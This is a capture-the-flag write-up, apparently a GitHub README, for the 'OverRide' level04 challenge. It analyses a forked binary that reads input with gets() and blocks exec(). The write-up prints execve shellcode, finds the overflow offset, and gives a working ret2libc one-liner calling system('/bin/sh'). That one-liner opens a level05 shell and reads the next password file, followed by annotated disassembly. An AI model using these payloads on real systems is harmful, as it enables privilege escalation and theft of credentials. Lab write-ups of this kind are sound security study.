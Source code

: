 # LEVEL04
**Info: level protect option**
```sh
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level04/level04
```
---
```sh
level04@OverRide:~$ ls -la
total 17
dr-xr-x---+ 1 level04 level04   80 Sep 13  2016 .
dr-x--x--x  1 root    root     260 Oct  2  2016 ..
-rw-r--r--  1 level04 level04  220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root       7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level04 level04 3533 Sep 10  2016 .bashrc
-rwsr-s---+ 1 level05 users   7797 Sep 10  2016 level04
-rw-r--r--+ 1 level04 level04   41 Oct 19  2016 .pass
-rw-r--r--  1 level04 level04  675 Sep 10  2016 .profile
level04@OverRide:~$ ./level04 
Give me some shellcode, k
42
child is exiting...
level04@OverRide:~$ ./level04 
Give me some shellcode, k
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
child is exiting...
```
We can find one excutable file **level04**, who take standard input, he wants some shellcode, but do not anything. \
\
Check it with GDB, 

After analyzing asm code, we could find buffer overflow-able function ```gets```, but there is also a protection for the ```exec``` system call (syscall number 11). \
So we have to somehow 1. get the flag without running the ```exec``` 2. and run the exploit code. \
and also, there is ```fork()```, so we can't check properly informations of child process, so we have to run some gdb flags ```set follow-fork-mode child```.
```sh
(gdb) set follow-fork-mode child
```
With that flag, let's find the offset of buffer overflow.
```sh
python3 pattern_generator.py
=== Buffer Overflow Pattern Generator & Offset Finder ===
Enter the length of the pattern to generate: 200
Generated pattern (200 bytes):
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2ad3ad4ad5ad6ad7ad8ad9ae0ae1ae2ae3ae4ae5ae6ae7ae8ae9af0af1af2af3af4af5af6af7af8af9ag0ag1ag2ag3ag4ag5ag
...
[New process 3252]
Give me some shellcode, k
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2ad3ad4ad5ad6ad7ad8ad9ae0ae1ae2ae3ae4ae5ae6ae7ae8ae9af0af1af2af3af4af5af6af7af8af9ag0ag1ag2ag3ag4ag5ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 3252]
---Type <return> to continue, or q <return> to quit---
0x61326661 in ?? ()
...

Enter the hex value to find (e.g., 0x63613563): 0x61326661
Little Endian ASCII representation: 'af2a'
'af2a' found at offset: 156
```
Now we can redirect our program's flow, i mean EIP, to the system function's address and forcely run the command ```/bin/sh```.
```System``` and string ```/bin/sh``` are stored somewhere in the standard library:
```sh
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
```
After getting those values we first put the address of system then ESP+0, that we don't care, cause we don't have to end program properly, then the address of ```/bin/sh``` at the EIP+4, as first argument to system function.
```sh
level04@OverRide:~$ (python -c 'print "A" * 156 + "\xd0\xae\xe6\xf7" + "BBBB" + "\xec\x97\xf8\xf7"'; cat) | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
(hidden)
```
level04 passed ! 

assmebly analyze
---
```sh
(gdb) disas main
Dump of assembler code for function main:
   0x080486c8 <+0>:     push   %ebp
   0x080486c9 <+1>:     mov    %esp,%ebp
   0x080486cb <+3>:     push   %edi
   0x080486cc <+4>:     push   %ebx
   0x080486cd <+5>:     and    $0xfffffff0,%esp
   0x080486d0 <+8>:     sub    $0xb0,%esp # 176
   0x080486d6 <+14>:    call   0x8048550 <fork@plt>
   0x080486db <+19>:    mov    %eax,0xac(%esp) # var pid = fork()
   0x080486e2 <+26>:    lea    0x20(%esp),%ebx # str[128] # 172 - 32 = 140 - 12 = 128
   0x080486e6 <+30>:    mov    $0x0,%eax # 0
   0x080486eb <+35>:    mov    $0x20,%edx # 32
   0x080486f0 <+40>:    mov    %ebx,%edi
   0x080486f2 <+42>:    mov    %edx,%ecx
   0x080486f4 <+44>:    rep stos %eax,%es:(%edi) # memset(str[128], 128, 0)
   0x080486f6 <+46>:    movl   $0x0,0xa8(%esp) # some variable init with 0 int a = 0
   0x08048701 <+57>:    movl   $0x0,0x1c(%esp) # some variable init with 0 int b = 0
   0x08048709 <+65>:    cmpl   $0x0,0xac(%esp) # if pid == 0
   0x08048711 <+73>:    jne    0x8048769 <main+161>
   0x08048713 <+75>:    movl   $0x1,0x4(%esp) # parent process
   0x0804871b <+83>:    movl   $0x1,(%esp)
   0x08048722 <+90>:    call   0x8048540 <prctl@plt> # prctl(PR_SET_PDEATHSIG, SIGHUP)  # https://github.com/torvalds/linux/blob/master/include/uapi/linux/prctl.h
   0x08048727 <+95>:    movl   $0x0,0xc(%esp)
   0x0804872f <+103>:   movl   $0x0,0x8(%esp)
   0x08048737 <+111>:   movl   $0x0,0x4(%esp)
   0x0804873f <+119>:   movl   $0x0,(%esp)
   0x08048746 <+126>:   call   0x8048570 <ptrace@plt> # ptrace(PTRACE_TRACEME, 0, 0, 0) # https://github.com/torvalds/linux/blob/master/include/uapi/linux/ptrace.h
   0x0804874b <+131>:   movl   $0x8048903,(%esp) # "Give me some shellcode, k"
   0x08048752 <+138>:   call   0x8048500 <puts@plt>
   0x08048757 <+143>:   lea    0x20(%esp),%eax # str[128]
   0x0804875b <+147>:   mov    %eax,(%esp)
   0x0804875e <+150>:   call   0x80484b0 <gets@plt> # @ vulnerability @
   0x08048763 <+155>:   jmp    0x804881a <main+338>
   0x08048768 <+160>:   nop						# loop +296
   0x08048769 <+161>:   lea    0x1c(%esp),%eax # child process
   0x0804876d <+165>:   mov    %eax,(%esp) # var
   0x08048770 <+168>:   call   0x80484f0 <wait@plt> # wait(b)
   0x08048775 <+173>:   mov    0x1c(%esp),%eax
   0x08048779 <+177>:   mov    %eax,0xa0(%esp) # var
   0x08048780 <+184>:   mov    0xa0(%esp),%eax
   0x08048787 <+191>:   and    $0x7f,%eax # 0111_1111
   0x0804878a <+194>:   test   %eax,%eax # if 0
   0x0804878c <+196>:   je     0x80487ac <main+228>
   0x0804878e <+198>:   mov    0x1c(%esp),%eax
   0x08048792 <+202>:   mov    %eax,0xa4(%esp)
   0x08048799 <+209>:   mov    0xa4(%esp),%eax
   0x080487a0 <+216>:   and    $0x7f,%eax
   0x080487a3 <+219>:   add    $0x1,%eax
   0x080487a6 <+222>:   sar    %al # or its synonym shl # https://docs.oracle.com/cd/E19455-01/806-3773/instructionset-27/index.html
   0x080487a8 <+224>:   test   %al,%al
   0x080487aa <+226>:   jle    0x80487ba <main+242> # if (((b & 0x7f) != 0 && (((b & 0x7f) + 1) >> 1) <= 0))
   0x080487ac <+228>:   movl   $0x804891d,(%esp) # "child is exiting..."
   0x080487b3 <+235>:   call   0x8048500 <puts@plt>
   0x080487b8 <+240>:   jmp    0x804881a <main+338> # return (0)
   0x080487ba <+242>:   movl   $0x0,0xc(%esp) # 0
   0x080487c2 <+250>:   movl   $0x2c,0x8(%esp) # 44
   0x080487ca <+258>:   mov    0xac(%esp),%eax # var pid
   0x080487d1 <+265>:   mov    %eax,0x4(%esp)
   0x080487d5 <+269>:   movl   $0x3,(%esp)
   0x080487dc <+276>:   call   0x8048570 <ptrace@plt> # ptrace(3, pid, 44, 0)
   0x080487e1 <+281>:   mov    %eax,0xa8(%esp) # return of ptrace
   0x080487e8 <+288>:   cmpl   $0xb,0xa8(%esp) # if (ptrace(PTRACE_PEEKUSER, pid, 44, 0) == 11)
   0x080487f0 <+296>:   jne    0x8048768 <main+160>
   0x080487f6 <+302>:   movl   $0x8048931,(%esp) # "no exec() for you"
   0x080487fd <+309>:   call   0x8048500 <puts@plt>
   0x08048802 <+314>:   movl   $0x9,0x4(%esp) # 9
   0x0804880a <+322>:   mov    0xac(%esp),%eax # var pid
   0x08048811 <+329>:   mov    %eax,(%esp)
   0x08048814 <+332>:   call   0x8048520 <kill@plt> # kill(pid, 9) # SIG_KILL
   0x08048819 <+337>:   nop
   0x0804881a <+338>:   mov    $0x0,%eax
   0x0804881f <+343>:   lea    -0x8(%ebp),%esp
   0x08048822 <+346>:   pop    %ebx
   0x08048823 <+347>:   pop    %edi
   0x08048824 <+348>:   pop    %ebp
   0x08048825 <+349>:   ret    
End of assembler dump.
```

0xffffd8c2